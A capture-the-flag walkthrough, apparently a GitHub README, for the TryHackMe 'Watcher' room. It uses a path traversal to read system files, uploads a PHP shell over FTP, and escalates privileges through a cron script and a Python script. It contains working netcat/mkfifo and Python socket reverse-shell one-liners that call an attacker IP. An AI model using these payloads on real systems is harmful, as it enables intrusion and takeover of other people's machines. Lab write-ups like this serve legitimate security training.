



# Watcher CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Watcher** CTF challenge on [TryHackMe](https://tryhackme.com/room/watcher). 
---

we see open ports 80, 22 and 21

by using feroxbuster we found our first flag !!


we also know about `/secret_file_do_not_read.txt` but we dont have access to it

we also see that there is path traversal we can go to 

```
http://10.10.184.183/post.php?post=../../../../../../etc/passwd
```


from /etc/passwd we know about users: will, mat, toby

we can also check `=../../../../../../etc/vsftpd.conf` for ftp configuration


we can also check the secret file that we dont have permission to by going to `http://10.10.184.183/post.php?post=secret_file_do_not_read.txt` 


we found some ftp credentials 


we found the second flag !!

from the ftp config file we know that we have write access and from the secret file we know where are the files stored, so we can upload reverse shell via ftp and then access it via http


we use put shell.php while inside files folder and then access `http://10.10.184.183/post.php?post=../../../../../../home/ftpuser/ftp/files/shell.php`

and we got access as `www-data`



in /var/www/html we can find folder called `more_secrets_a9f10a` and there is the third flag !!


by looking at all the files we probably need to gain access as toby first becasue he has flag4 in his home folder


after checking sudo -l output we can run any command as toby without password so we can use this to become toby 



```
sudo -u toby /bin/bash
```


and we got flag 4 !!


by looking at the cron jobs, we see that user mat will execute script from `/home/toby/jobs/cow.sh` we also can modify the file


so i will put another rev shell into this file and then we need to wait for the cron 

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.91.59 7777 >/tmp/f" > cow.sh
</bash -i 2>&1|nc 10.14.91.59 7777 >/tmp/f" > cow.sh
```

it worked we have access as mat


we got flag 5 !!


in scripts folder there are 2 python files `cmd.py` and `will_script.py`


we can modify the cmd.py, we also see that will_script uses the cmd.py so we can clear the cmd.py and insert the reverse shell there

cmd.py: 

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

the command to execute by looking at the sudo -l output


```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 2
```

we got access as will


we got flag 6 !!


in /opt there is backups directory



inside we see `key.b64` file 


after decoding it from base64 we see RSA private key

this coulde be a root key, now we try to login as root


it worked we have root access and last flag !!


# MACHINE PWNED
